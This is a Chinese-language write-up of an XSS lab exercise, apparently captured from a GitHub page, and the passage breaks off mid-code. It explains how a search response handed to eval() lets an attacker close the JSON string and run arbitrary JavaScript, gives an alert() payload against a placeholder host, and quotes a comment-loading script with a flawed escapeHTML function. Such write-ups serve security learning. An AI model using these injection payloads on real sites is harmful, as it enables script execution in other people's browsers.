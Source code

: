     {"searchTerm":"1","results":[{"id":5,"title":"Grandma's on the net","headerImage":"/content/blog/posts/8.jpg","summary":"I love old people and technology. I love the language they use, where they have to put the word 'the' in front of everything. The Facebook, The Twitter...the ones I love the most are the ones who show they have..."},{"id":3,"title":"Finding Inspiration","headerImage":"/content/blog/posts/31.jpg","summary":"I don't care who you are or where you're from aren't just poignant Backstreet Boys lyrics, they also ring true in life, certainly as far as inspiration goes. We all lack drive sometimes, or perhaps we have the drive but..."},{"id":2,"title":"Machine Parenting","headerImage":"/content/blog/posts/66.jpg","summary":"It has finally happened. The progression from using TV's and tablets as a babysitter for your kids has evolved. Meet the droids, the 21st Century Machine Parenting bots who look just like mom and dad."},{"id":1,"title":"New Year - New Friends","headerImage":"/content/blog/posts/43.jpg","summary":"It's always the same. A new year begins and those people you thought were your friends go, well, a bit weird. Your nearest and dearest, between them, have a very long list of things they want to change about themselves...."}]}
可以看到返回内容会赋值searchResultsObj 使用函数displaySearchResults() 显示在页面，就会出现搜索结果<br>
关键赋值这里使用了eval('var searchResultsObj = ' + this.responseText);<br>
由于返回内容里有值我们可控 。1的地方是可控的<br>
所以我们只要闭合"};赋值,再用//注释掉后面的,中间就可以执行任意的js语句<br>
js执行过程如下<br>
eval('var searchResultsObj = {"searchTerm":"1"};可控地方;//","results":[]}');<br>
**payload**<br>

     https://www.xxxx.com/?search=1\"};alert();//
由于json会转义" 变成\" 所以多加个\ 转义\ 使"逃逸出来
};闭合前面的赋值 中间可以写任意的js语句 //注释掉后面不需要的

----**存储+dom xss**<br>
https://www.xxxx.com/post?postId=2<br>
加载一段js<br>

    (function () {
        let xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
                let comments = JSON.parse(this.responseText);
                displayComments(comments);
            }
        };
        xhr.open("GET", "/post/comment" + window.location.search);
        xhr.send();
    
        function escapeHTML(html) {
            return html.replace('<', '&lt;').replace('>', '&gt;');
        }
    
        function displayComments(comments) {
            let userComments = document.getElementById("user-comments");
    
            for (let i = 0; i < comments.length; ++i)
            {
                comment = comments[i];
                let commentSection = document.createElement("section");
                commentSection.setAttribute("class", "comment");
    
                let firstPElement = document.createElement("p");
    